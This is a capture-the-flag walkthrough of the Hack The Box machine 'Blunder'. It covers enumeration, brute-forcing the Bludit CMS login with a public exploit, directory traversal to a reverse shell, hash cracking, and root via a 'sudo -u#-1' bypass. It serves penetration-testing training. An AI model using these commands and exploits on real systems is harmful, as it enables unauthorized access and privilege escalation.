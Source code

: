 ## Blunder

Difficulty: Easy

### User Flag

```
rustscan -a 10.10.10.191 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/30d9802c-95ea-4dc1-a7a5-dda81cd413c2)

<br>

The website appears to be a normal blog.

![website](https://github.com/b1d0ws/OSCP/assets/58514930/a2fc934e-5b0b-4fb9-a48f-c1db162e0a09)

<br>

Doing some enumeration with different extensions, we find a todo.txt file.

```
gobuster dir -u http://10.10.10.191 -w /usr/share/wordlists/dirb/big.txt -t 40 -x  js,html,pdf,zip,asp,aspx,bak,txt,py -b 403,404
```

![gobuster](https://github.com/b1d0ws/OSCP/assets/58514930/d591bb3c-ae66-436b-941d-d639bc15e38b)

<br>

In this file we enumerate "fergus" user.

![todoText](https://github.com/b1d0ws/OSCP/assets/58514930/3ecde9e6-3ed5-4463-8108-41ae4ddfb7f2)

<br>

In install.php we enumerate the CMS Bludit.

![enumerateBludit](https://github.com/b1d0ws/OSCP/assets/58514930/bac48be7-ca2a-42e3-b080-157794b9bd70)

<br>

Searching for exploits, the [Auth Bruteforce Bypass](https://www.exploit-db.com/exploits/48942) call our attention, since we already have one user.

![bruteForceBypass](https://github.com/b1d0ws/OSCP/assets/58514930/1f36dca6-215a-4494-a599-6d4b96762d0c)

<br>

To use as password wordlist, we can generate one from the website using cewl.

```
cewl http://10.10.10.191/ > passwords.txt
```

<br>

python3 exploit.py -l http://10.10.10.191/admin/ -u admin.txt -p passwords.txt

![bruteForcing](https://github.com/b1d0ws/OSCP/assets/58514930/883a16ec-133f-45f6-91b1-ed0eee6d4ec2)

![bruteForceSuccess](https://github.com/b1d0ws/OSCP/assets/58514930/b0b8360f-13d2-42b3-8098-dc3ef25fd565)

<br>

Once authenticated, we can use the [Directory Traversal](https://www.exploit-db.com/exploits/48701) exploit.

![searchsploitLFI](https://github.com/b1d0ws/OSCP/assets/58514930/a7d549d4-4359-483f-a412-621830cc2b14)

![lfiExploit](https://github.com/b1d0ws/OSCP/assets/58514930/c342e51b-3786-42ed-866f-8a0c69f01943)

<br>

Get the reverse shell accessing evil.png and improve the shell with mkfifo and python3.

![betterReverseShell](https://github.com/b1d0ws/OSCP/assets/58514930/ec6d2d7f-6a49-4bf9-bcad-71671856a93f)

<br>

There is another version of bludit inside /var/www/bludit-3.10.0a. Access /var/www/bludit-3.10.0a/bl-content/databases, get hugo's hash from users.php and crack it in CrackStation.

![users php](https://github.com/b1d0ws/OSCP/assets/58514930/7c910c70-5753-463c-baba-193623364f64)

![crackStation](https://github.com/b1d0ws/OSCP/assets/58514930/3a36cb38-8d55-488a-a21e-c58bc44a8ca8)

### Root Flag

There is two ways to do the privilege escalation. The first one is exploiting the sudo version since we have som peculiar permissions in sudo -l.

```
sudo -u#-1 /bin/bash
```

![privEsc](https://github.com/b1d0ws/OSCP/assets/58514930/9c146a83-4407-4d57-b803-ea4f2d0430b1)

<br>

The other is exploiting [CVE-2021-3560](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation) (PolKit).
